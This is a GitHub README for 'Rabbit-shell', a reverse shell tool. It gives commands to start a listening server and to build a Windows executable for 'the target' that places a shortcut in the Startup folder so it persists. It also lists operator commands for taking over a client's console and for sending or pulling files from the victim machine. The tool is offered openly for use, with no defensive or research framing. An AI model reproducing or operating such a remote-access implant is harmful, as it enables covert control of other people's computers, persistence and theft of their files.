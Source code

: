 # Rabbit-shell

###### Rabbit shell reverse shell tool.





##  Installation.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install -r requirements.txt
```

###### The go to tool file is rabbit.py.





## Run server and start listening.

```bash
python rabbit.py --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.



## Generate exe for the target.

```bash
python rabbit.py --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to
> - -i (optional) exe icon
> - -n (optional) exe name

###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
